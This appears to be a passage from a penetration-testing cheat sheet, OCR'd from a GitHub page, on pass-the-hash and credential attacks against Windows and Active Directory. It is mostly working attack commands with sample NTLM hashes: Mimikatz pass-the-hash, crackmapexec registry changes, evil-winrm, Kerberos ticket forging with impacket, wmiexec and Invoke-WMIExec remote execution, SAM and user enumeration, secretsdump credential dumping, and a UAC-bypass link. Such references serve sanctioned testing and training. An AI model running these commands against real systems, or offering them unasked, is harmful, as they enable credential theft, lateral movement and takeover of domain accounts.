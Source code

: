             Mimikatz/Mstsc:  sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
            Might need to enable first:  crackmapexec smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
        Port 5985/5986:
            ruby evil-winrm.rb -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
        Through Kerberos Ticket:
            Create TGT:  python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user; cp user.ccache /tmp/krb5cc_0; export KRB5CCNAME=/tmp/krb5cc_0
            SSH connect:  ssh -o GSSAPIAuthentication=yes user@domain.local -vv; cp user.ccache /tmp/krb5cc_1045; ssh -o GSSAPIAuthentication=yes user@domain.local
        From Windows:
            Mimikatz:  privilege::debug; sekurlsa::pth /user:Administrator /domain:ignite.local /ntlm:32196B56FFE6F45E294117B91A83BF38 [/run:powershell.exe]
            Powershell:  Invoke-WMIExec -Target 192.168.1.105 -Domain ignite -Username Administrator -Hash 32196B56FFE6F45E294117B91A83BF38 -Command "cmd /c mkdir c:\hacked" -Verbose
            CMD:  wmiexec.exe -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
    Other PTH Techniques:
        LDAP:  https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
        Generate Kerberos Ticket > follow-on attacks - https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
            -Mount SMB Share
            -Use Kerberos ticket to SSH to Linux box
        Read/Modify Registry:
            python3 reg.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105 query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
        Enum Users:  python3 lookupsid.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105  \\  python3 samrdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105

    Other Credential Methods:
        UAC Bypass:  https://github.com/k4sth4/UAC-bypass
        Impersonation/elevation:  runas /user:domain\username cmd.exe
        Powershell Invoke-Command:
            With creds, running powershell as a user (using a credential object and invoke-command) (ex. https://0xdf.gitlab.io/2020/04/25/htb-control.html)
            $password=ConvertTo-SecureString "PlainTextPassword" -AsPlainText -Force
            $cred=New-Object System.Management.Automation.PSCredential("username",$password)
            Invoke-Command -ComputerName Server01 -Credential $cred -ScriptBlock { Get-Culture }
        Enumeration:
            Secretsdump:
                python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm egotisticalbank/svc_loanmgr@10.10.10.175
                With Creds/Hash:
                    python3 secretsdump.py ituser@10.0.0.40 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
                    python3 secretsdump.py svc-alfresco:s3rvice@10.10.10.161  
  
### Active Directory:
  